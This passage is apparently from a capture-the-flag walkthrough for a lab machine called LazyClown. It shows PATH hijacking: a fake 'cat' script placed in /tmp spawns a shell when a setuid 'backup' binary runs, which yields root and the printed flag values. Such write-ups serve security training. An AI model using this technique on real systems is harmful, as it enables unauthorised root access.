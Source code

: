 ```bash
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
mitsos@LazyClown:~$ export PATH=/tmp:$PATH
mitsos@LazyClown:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Now, we can create a malicious `cat` file to spawn a new shell!

```bash
mitsos@LazyClown:~$ cd /tmp
mitsos@LazyClown:/tmp$ vi cat
mitsos@LazyClown:/tmp$ chmod +x cat
mitsos@LazyClown:/tmp$ cat cat 
#!/bin/sh

/bin/sh
```

Finally, we can execute the `backup` binary file to gain root access!

```bash
mitsos@LazyClown:/tmp$ cd /home/mitsos/
mitsos@LazyClown:~$ ./backup 
# whoami
root
# cat /home/mitsos/user.txt
# PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
# cat /home/mitsos/user.txt
ffedead33b2299f99ac8cbc2dd4eaf3c
# cat /root/root.txt
489332b5fb06c89a9618f082b1b107a2
```

